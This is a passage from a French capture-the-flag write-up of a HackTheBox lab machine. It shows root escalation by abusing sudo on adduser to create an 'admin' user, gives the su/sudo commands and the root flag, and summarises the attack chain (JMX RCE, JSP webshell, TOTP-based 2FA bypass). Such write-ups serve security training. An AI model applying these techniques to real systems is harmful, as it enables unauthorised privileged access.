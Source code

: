 - Exécution de `/usr/sbin/adduser` sans mot de passe
- Regex censée valider le nom d'utilisateur : alphanumériques uniquement
- La restriction n'est pas appliquée correctement sur toutes les versions Ubuntu
{{< /admonition >}}

### **2. Exploitation de la Configuration Sudo**

Sur Ubuntu, le nom d'utilisateur "admin" possède une signification spéciale dans PAM/sudo par défaut. Exploitons cette particularité :

```bash
sudo /usr/sbin/adduser admin
# Définir un mot de passe lors de la création
```

![Création de l'utilisateur admin](/images/HTBManage/adduser_admin.png)

{{< admonition note "Comportement Observé" >}}
L'utilisateur `admin` est automatiquement ajouté au groupe admin avec privilèges sudo complets (dépend de la version du système).
{{< /admonition >}}

### **3. Escalade Finale**

Passons à l'utilisateur admin puis à root :

```bash
su admin
# Entrer le mot de passe défini

sudo su
# Entrer le mot de passe admin
```

![Accès root obtenu](/images/HTBManage/root_access.png)

{{< admonition success "Root Access Obtenu" >}}
Nous avons maintenant un accès complet en tant que root !
{{< /admonition >}}

**Root flag :**
```bash
cat /root/root.txt
b3645b7e6db6d5276ad33f0c75b8dc34
```

## **Chaîne d'Attaque Complète**

```
RMI Registry (2222)
    ↓
JMX sans authentification
    ↓
Extraction credentials via MemoryUserDatabaseMBean
    ↓
RCE via StandardMBean abuse (TemplateImpl payload)
    ↓
Webshell JSP déployé
    ↓
Secret TOTP exposé (.google_authenticator)
    ↓
Bypass 2FA SSH avec pyotp
    ↓
Sudo adduser avec nom "admin"
    ↓
Privilèges root automatiques
```
